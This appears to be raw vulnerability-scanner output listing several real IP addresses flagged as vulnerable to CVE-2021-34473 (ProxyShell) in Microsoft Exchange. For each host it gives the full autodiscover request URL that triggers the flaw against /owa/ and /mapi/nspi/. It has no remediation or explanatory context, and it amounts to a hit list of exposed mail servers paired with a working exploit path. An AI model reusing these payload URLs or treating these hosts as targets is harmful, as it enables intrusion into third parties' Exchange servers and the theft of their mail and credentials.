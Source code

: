 [CVE-2021-34473] [http] [critical] https://188.35.186.239/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.254.16.170  
  
---  
[CVE-2021-34473] [http] [critical] https://188.254.16.170/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://188.254.16.170/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.65.132.124  
  
---  
[CVE-2021-34473] [http] [critical] https://188.65.132.124/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://188.65.132.124/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 193.232.252.10  
  
---  
[CVE-2021-34473] [http] [critical] https://193.232.252.10/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://193.232.252.10/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 193.254.248.43  
  
---  
[CVE-2021-34473] [http] [critical] https://193.254.248.43/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://193.254.248.43/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.93.111.234  
  
---  
[CVE-2021-34473] [http] [critical] https://188.93.111.234/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 194.154.91.62  
  
---  
[CVE-2021-34473] [http] [critical] https://194.154.91.62/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  